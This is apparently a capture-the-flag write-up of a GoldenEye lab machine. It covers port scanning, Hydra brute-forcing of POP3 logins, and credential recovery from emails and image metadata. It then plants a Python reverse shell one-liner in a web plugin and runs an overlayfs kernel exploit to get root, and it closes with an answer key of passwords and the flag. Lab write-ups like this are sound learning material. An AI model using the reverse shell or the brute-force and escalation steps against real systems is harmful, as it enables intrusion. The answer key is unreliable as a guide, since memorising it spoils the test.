 # **Golden-Eye Writeup by Brandon Gerber**

---

## **Task 1: Intro and Enumeration**

### **1.1 Nmap Scan**

I began by scanning the target machine using `nmap` to identify open ports:

`nmap -n -v -sT -p- -T5 <IP>`




This revealed **4 open ports**.

### **1.2 Source Code Analysis**

Next, I checked the **source code of the website** and found some comments:

// contacting a user named boris // left encoded password // mentioned another person named Natalya




Based on this, I assumed "boris" was a **username**, and I found an encoded password in the comments:  
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

### **1.3 Decoding Password**

Using an HTML decoder, I decoded it to: **InvincibleHack3r**.  
I realized I could have just used `dcode<pw>`.

---

## **Task 2: It’s Mail Time**

### **2.1 Login via Telnet**

I tried logging in via **telnet** to the **POP3 service on port 55007**, but the credentials failed. The next hint was to use **Hydra** to crack the password:

hydra -l boris -P <path_to_password_list> <IP> -s 55007 pop3



This successfully found the password:  
**Password: secret1!**

### **2.2 Retrieving Emails**

I then logged in via telnet:

`telnet <IP> 55007`
user: boris 
pass: secret1!




After logging in, I listed and retrieved the emails using `retr <email num>`, revealing another username, **"Xenia."**

### **2.3 Cracking Xenia’s Password**

Using Hydra again, I cracked Xenia’s password:

`hydra -l Xenia -P <path_to_password_list> <IP> -s 55007 pop3`



The password was **bird**. After logging into her account, I found her new password: **RCP90rulez!**.

### **2.4 Accessing the Website**

This led me to the next hint regarding the **severnaya-station.com** website. I added it to my `/etc/hosts` file to access it:

`nano /etc/hosts`

Add the line
`<IP> severnaya-station.com`




I visited **http://severnaya-station.com/gnocertdir/** and used Xenia's credentials to log in:

user: Xenia pass: RCP90rulez!




Under **"My Profile,"** I found a message from **Dr. Doak** revealing his creds:

`hydra -l Doak -P <path_to_wordlist> <IP> -s 55007 pop3`




Password: **goat**

Using telnet again, I found his password in an email: **4England!**

---

## **Task 3: Gaining Access**

### **3.1 Logging in with Dr. Doak's Credentials**

Logging in with Dr. Doak's credentials (`dr_doak`, `4England!`), I explored his private files and discovered a file named **s3cret.txt**, which mentioned the location of an image at `/dir007key/for-007.jpg`. I downloaded the image using `wget` and extracted hidden information with `exiftool`. Inside the description field, I found a **Base64 string**:

eFdpbnRlckE50TV4IQ==




Decoded, it revealed: **xWinter1995x!**

user: admin 
pass: xWinter1995x!




---

## **Task 4: Exploitation**

### **4.1 Creating a Reverse Shell**

I created a **reverse shell** using Python, found this on [pentestmonkey cheat sheets](https://pentestmonkey.net/):

` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>", <Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])' `




I inserted this script into the spell check plugin on the website, then started a listener using `pwncat`:

`pwncat --listen -p 9999`




This granted me a shell on the system. The kernel version was **3.13.0-32-generic**, and I found an **overlayfs privilege escalation exploit** (https://www.exploit-db.com/exploits/37292).

### **4.2 Compiling and Executing the Exploit**

I compiled and executed the exploit:

upload exploit.c /tmp 
cd /tmp 
cc exploit.c -o exploit 
run the exploit
./exploit




This gave me **root access**. I navigated to the `/root` directory and found the final flag:

cat flag.txt




**Root flag: 568628e0d993b1973adc718237da6e93**

---

## **ANSWERS**

---

### **Task 1:**

- **How many ports are open?**  
  **Answer:** 4

- **Who needs to update their default password?**  
  **Answer:** boris

- **What's their password?**  
  **Answer:** InvincibleHack3r

---

### **Task 2:**

- **What's their new password?**  
  **Answer:** secret1!

- **What services is configured to use port 55007?**  
  **Answer:** telnet

- **What user can break Boris' codes?**  
  **Answer:** natalya

- **What user can you login as on the severnaya-station.com site?**  
  **Answer:** xenia

- **What was Doak's password?**  
  **Answer:** goat

- **What's Dr. Doak's password?**  
  **Answer:** 4England!

---

### **Task 3:**

- **What's the kernel version?**  
  **Answer:** 3.13.0-32-generic

- **What is the root flag?**  
  **Answer:** 568628e0d993b1973adc718237da6e93
